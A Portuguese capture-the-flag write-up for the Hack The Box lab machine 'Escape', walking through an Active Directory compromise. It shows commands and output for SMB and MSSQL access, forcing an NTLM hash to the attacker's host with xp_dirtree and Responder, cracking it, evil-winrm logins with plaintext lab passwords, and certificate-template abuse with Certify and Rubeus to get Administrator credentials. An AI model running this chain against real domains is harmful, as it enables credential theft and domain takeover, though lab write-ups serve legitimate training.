


# Writeup escape

## Scan

```bash
# Nmap 7.92 scan initiated Sat Mar 18 08:33:29 2023 as: nmap -sVC -Pn -v -T5 -p 53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 -oN fullnmap.txt 10.129.242.222
Nmap scan report for sequel.htb (10.129.242.222)
Host is up (0.32s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-03-18 20:33:40Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-03-18T20:35:05+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-18T21:20:35
| Not valid after:  2023-11-18T21:20:35
| MD5:   869f 7f54 b2ed ff74 708d 1a6d df34 b9bd
|_SHA-1: 742a b452 2191 3317 6739 5039 db9b 3b2e 27b6 f7fa
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-18T21:20:35
| Not valid after:  2023-11-18T21:20:35
| MD5:   869f 7f54 b2ed ff74 708d 1a6d df34 b9bd
|_SHA-1: 742a b452 2191 3317 6739 5039 db9b 3b2e 27b6 f7fa
|_ssl-date: 2023-03-18T20:35:06+00:00; +8h00m02s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-03-18T20:35:05+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-03-18T20:24:05
| Not valid after:  2053-03-18T20:24:05
| MD5:   9207 b213 2fd2 192d e6c8 dd99 7ca6 5585
|_SHA-1: 1244 42a8 2fcf 68f1 7eaf 233c 8466 e98f 448d 6c9f
| ms-sql-ntlm-info: 
|   Target_Name: sequel
|   NetBIOS_Domain_Name: sequel
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: sequel.htb
|   DNS_Computer_Name: dc.sequel.htb
|   DNS_Tree_Name: sequel.htb
|_  Product_Version: 10.0.17763
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-18T21:20:35
| Not valid after:  2023-11-18T21:20:35
| MD5:   869f 7f54 b2ed ff74 708d 1a6d df34 b9bd
|_SHA-1: 742a b452 2191 3317 6739 5039 db9b 3b2e 27b6 f7fa
|_ssl-date: 2023-03-18T20:35:05+00:00; +8h00m02s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-03-18T20:35:06+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-18T21:20:35
| Not valid after:  2023-11-18T21:20:35
| MD5:   869f 7f54 b2ed ff74 708d 1a6d df34 b9bd
|_SHA-1: 742a b452 2191 3317 6739 5039 db9b 3b2e 27b6 f7fa
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h00m01s, deviation: 0s, median: 8h00m01s
| ms-sql-info: 
|   10.129.242.222:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-time: 
|   date: 2023-03-18T20:34:27
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 18 08:35:07 2023 -- 1 IP address (1 host up) scanned in 97.80 seconds
```

## Enumeration & Exploitation

    Após o scan, começamos a enumerar a máquina. é possível encontrar uma pasta acessível como o usuário "guest". 

```bash
smbmap -H 10.129.241.241 -u "guest" 
[+] IP: 10.129.241.241:445      Name: sequel.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Public                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
```

    Ao acessá-la, nota-se a existência de um arquivo. Podemos baixá-lo para nossa máquina e descobrir o que tem de conteúdo nele.

```bash
smbclient //10.129.241.241/Public                     
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022

                5184255 blocks of size 4096. 1468150 blocks available
smb: \> megt "SQL Server Procedures.pdf"
```

    Ao ler o arquivo, descobrimos que existe credenciais de login para o mssql.



    Podemos usar o **impacket-mssqlclient** para logar no mssql usando essas credenciais.

```bash
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.129.241.241
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```

    Com o login feito, podemos usar o `xp_dirtree` e o `responder` para capturar as hashes do usuário.

> Hashes

```bash
SQL> exec master.sys.xp_dirtree '//10.10.14.147/aaa'
subdirectory                                                                                                                                                                                                                                                            depth   

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   -----------   

SQL>
```

> Responder

```bash
responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.147]
    Responder IPv6             [dead:beef:2::1091]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-Q40SKBPOALJ]
    Responder Domain Name      [9K41.LOCAL]
    Responder DCE-RPC Port     [45948]

[+] Listening for events...                                                                                                                                                                  

[SMB] NTLMv2-SSP Client   : 10.129.241.241
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:14a3bc8b080dc70f:BBF9AF9585C27625C9210C5D46D7E9AB:010100000000000080339286675AD901AD5A3CCCE2F5D47F000000000200080039004B003400310001001E00570049004E002D0051003400300053004B00420050004F0041004C004A0004003400570049004E002D0051003400300053004B00420050004F0041004C004A002E0039004B00340031002E004C004F00430041004C000300140039004B00340031002E004C004F00430041004C000500140039004B00340031002E004C004F00430041004C000700080080339286675AD90106000400020000000800300030000000000000000000000000300000E7675167F66A2A874E691962BD5BBF6151D2703C5FFDF2BEA034A6F83EEBB82D0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100340037000000000000000000
```

    Com as hash capturada, podemos colocá-la em um arquivo e quebrá-la com o hashcat.

```bash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

    Com a hash quebrada, conseguimos ter as seguintes credenciais: `sql_svc:REGGIE1234ronnie` e com ela, conseguimos logar na máquina via `evil-winrm`.

```powershell
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie                      

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sql_svc\Documents>
```

    Com o acesso à máquina, podemos vasculhar alguns arquivos em busca de algo que nos ajude a fazer uma movimentação lateral.

    A máquina possui um diretório "C:\sqlserver\logs" que contém um arquivo de log. Ao ler seu conteudo, podemos notar algo que poder ser credenciais de acesso do usuário "Ryan.Cooper".



    Ao testar esse usuário e sua possível senha, temos um resultado positivo.

```bash
└─$ crackmapexec winrm 10.129.241.241 -u Ryan.Cooper -p NuclearMosquito3
SMB         10.129.241.241  5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        10.129.241.241  5985   DC               [*] http://10.129.241.241:5985/wsman
WINRM       10.129.241.241  5985   DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3 (Pwn3d!)
```

    Com essas novas credenciais, podemos acessar a maquiná usando o `evil-winrm` e pegar a user flag.

> User Flag

```powershell
evil-winrm -i 10.129.241.241 -u Ryan.Cooper -p NuclearMosquito3

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> cat user.txt
63abdcf2dd45903a2f07e078d0554fb2
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop>
```

## Privilege Escalation

    Para Privilege Escalation, usaremos uma técnica de abuso de certificados.

**Referências:**

1. https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#active-directory-certificate-services

2. [From Misconfigured Certificate Template to Domain Admin - Red Team Notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin)

    De início, devemos fazer upload do script "Certify.exe" para a máquina usando o comando de upload do evil-winrm.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> upload /opt/Privesc_scripts/Windows_Privesc/ghostpack/Certify.exe C:\Users\Ryan.Cooper\Desktop\Certify.exe
```

    Logo em seguida, usamos o script para procrurar certificados vulneráveis e suas entidades.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> ./Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'

[*] Listing info about the Enterprise CA 'sequel-DC-CA'

    Enterprise CA Name            : sequel-DC-CA
    DNS Hostname                  : dc.sequel.htb
    FullName                      : dc.sequel.htb\sequel-DC-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=sequel-DC-CA, DC=sequel, DC=htb
    Cert Thumbprint               : A263EA89CAFE503BB33513E359747FD262F91A56
    Cert Serial                   : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Cert Start Date               : 11/18/2022 12:58:46 PM
    Cert End Date                 : 11/18/2121 1:08:46 PM
    Cert Chain                    : CN=sequel-DC-CA,DC=sequel,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
    Enrollment Agent Restrictions : None

[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519


Certify completed in 00:00:09.8558007
```

    Com o output da ferramenta, podemos ver que é possível abusar do certificado para fazer privilege escalation para algum usuário Domain Admin.

    Depois que o modelo de certificado vulnerável for identificado, podemos solicitar um novo certificado em nome de um administrador de domínio.

```powershell
./Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : sequel\Ryan.Cooper
[*] No subject name specified, using current context as subject.

[*] Template                : UserAuthentication
[*] Subject                 : CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] AltName                 : Administrator

[*] Certificate Authority   : dc.sequel.htb\sequel-DC-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 10

[*] cert.pem         :
```

    Em seguida, pegamos o valor da private key e do certificado, colocamos em um arquivo "cert.pem" e fazemos sua conversão para **pfx** em nossa máquina.

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

    Com o arquivo gerado, faremos upload do certificado e do script `Rubeus.exe` para nosso alvo.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> upload /home/kali/Desktop/HTB/machines/to-do/escape/cert.pfx C:\Users\Ryan.Cooper\Desktop\cert.pfx
Info: Uploading /home/kali/Desktop/HTB/machines/to-do/escape/cert.pfx to C:\Users\Ryan.Cooper\Desktop\cert.pfx


Data: 4564 bytes of 4564 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> upload /opt/Privesc_scripts/Windows_Privesc/ghostpack/Rubeus.exe C:\Users\Ryan.Cooper\Desktop\Rubeus.exe
Info: Uploading /opt/Privesc_scripts/Windows_Privesc/ghostpack/Rubeus.exe to C:\Users\Ryan.Cooper\Desktop\Rubeus.exe


Data: 595968 bytes of 595968 bytes copied

Info: Upload successful!
```

    Feito isso, podemos usar o Rubeus para solicitar um ticket TGT e a hash NTLM para o usuário para o qual o certificado foi criado.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> ./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\Administrator'
[*] Using domain controller: fe80::3550:477d:3f96:ecc4%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGSDCCBkSgAwIBBaEDAgEWooIFXjCCBVphggVWMIIFUqADAgEFoQwbClNFUVVFTC5IVEKiHzAdoAMC
      AQKhFjAUGwZrcmJ0Z3QbCnNlcXVlbC5odGKjggUaMIIFFqADAgESoQMCAQKiggUIBIIFBEWiNDEmWCIQ
      BdHucwGroJ74mMhtKUndqLt5Ec93fColLAZaTa98dm0vc1viAJX8p7z/Cmbyc5RddshtB5USkbYVT7Z0
      OpgreQGlabiOK5YiVhPHocbc8MC8U0mIa6xUUC662Qb+4X07QPTILWyyyLKbhRJN3PN+d8J1iJkLqtci
      h/pijUmWi7tJSJF1oBXSJbIcgKRc5U9cN5qz6LlzYz7CDJLz39wB0ybASaII7VM7VYKt6ST5oclPW1/n
      gL6yLesyZBtrcZjgIclUSWbUCHYsC/HAf+TwjzMxYQYK54wWnQAAj1kgyuN9W0bYh2e1DCkvOqSlvlvj
      CiKtiCfhmIYq3NUn00FY5tLA9sARZVecOzQm77iYB1IEAELP1LdItpW55Cif+HD6a4DA+P7KV1eIiwL7
      UUm3Dmn9yFYmKdJJ7aU3MRRjrd2rvnuFTxM/5c8q5emcx20vZhF/ZzoOkdtfRLlOOUiacLeeb0bwJrLC
      EYvzkB8DlxossgvVZa+DBho/1D7JNu4xlqucrw+7uWIsQH5wprjeJ5KonYAQR9DEzqK3JC2EeDr5lW6Q
      aMh2I3byDrDKBHrCYFoyhOIfMK012V/zFNuDA8vUFwwhPkreZihIn+fhc3DO/OsxJyOp9PhVfdd2k7ie
      hWbWnkydvG7Z3FXy2cGGbl4qIBj3x8kkUlBK0uLFya6eW4iGC9SJI8vfye98ieAMOFj0KSOo8jNHey6/
      U4xJQl2/xsIv+KgGizYp4hwpLCSmvWXWLqJqeCINzbElzlomt8Gu0pVUNe6l4DUw+3/XiXN5Q3PMjf5k
      p0HywdIqsmNyCwoE7KOg0xz0CDx70qAZBXcU2DSAMj9CpKZCNIub01kAvmIMW9pexG2MRxWreDWddPn3
      4pau0T4WWySfXXrX3OcekIUWKVF5e9KiiOJ2MufZ2U4zqGWU6RvjC8m6M5eXadMYWpoNQA7RcX9X3Iao
      Mhn1wFvgoq+BEL+KQT4gDt+Ps06UiCL9ovPzxJbOn3rMSewfX65EvWhG7sIbDd53fb+g1W39QsxxQkV1
      mo3LZ8GOKS2f6MgxzsL5+YSeyxNOSV5sAeZ5440087sHRXuaBGwO8xj3+u2VM8ddzEm1waPtklBelKNv
      M4+Kfk4f3tRB2D4fx8MLJudDZOrS5psdEziiwH5I5O6MIfQfgr2Mqu19pejzRMf7eMLBAKnGI6w8F8jq
      17JEu3uCNaJi8/AE43y96Xij74St56P/LkLCDwPbeo4/MCoqPUZ+HqINS63f0+h737YUjZQdIX1t/iJS
      fmiWyOIU1+yoK24sMZemVYdSCj43QLJkHSRIwb9CLG7b0DQp+4mm1v/7A/n1xXxlUD+Wm+Zp11iEhN60
      ZmH2Ed5WZCs1/4gu2YlB3sagZOXzs/YXApemFyaydxMEKCWeTbb/Dh+u7/AzxUhjYeCi1qFpIxBPQ8cK
      dLzLx/4SCJ/Gwt4hdhn49HKhh1/P34J/ZxWhie2xBQDDNEO50kp0WeKs1oIz+z/EPJGnS9UFc0GOAYt1
      RiT0UKZ7hrVsOhX1/iGuWDC2Mm8ejthfTitxiQvBcYs+wVWiWd0Ip5QBDmW5ES+92QT5fDiXWwDx7Me+
      GGQyf/wudR2H2PjcMUcGLlWahFIg3WG20bp24kx5f9k/XAV/Eoehbx8HB4nGWiu29sdn2noJ7B2RGtH+
      +ZylrIWJHLp6PlYebeanGqOB1TCB0qADAgEAooHKBIHHfYHEMIHBoIG+MIG7MIG4oBswGaADAgEXoRIE
      EH0LYgi3GqCWF7m1BgwF8cShDBsKU0VRVUVMLkhUQqIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3Kj
      BwMFAADhAAClERgPMjAyMzAzMjAwMDM1NDBaphEYDzIwMjMwMzIwMTAzNTQwWqcRGA8yMDIzMDMyNzAw
      MzU0MFqoDBsKU0VRVUVMLkhUQqkfMB2gAwIBAqEWMBQbBmtyYnRndBsKc2VxdWVsLmh0Yg==

  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  Administrator
  UserRealm                :  SEQUEL.HTB
  StartTime                :  3/19/2023 5:35:40 PM
  EndTime                  :  3/20/2023 3:35:40 AM
  RenewTill                :  3/26/2023 5:35:40 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  fQtiCLcaoJYXubUGDAXxxA==
  ASREP (key)              :  925F0994390E89A4B0A31BFCFC705FA6

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
```

    Tendo a hash NTLM, podemos usá-la para logar com usuário `Administrator `via PTH no `evil-winrm`. Ao logar, podemos pegar a flag.

```bash

```
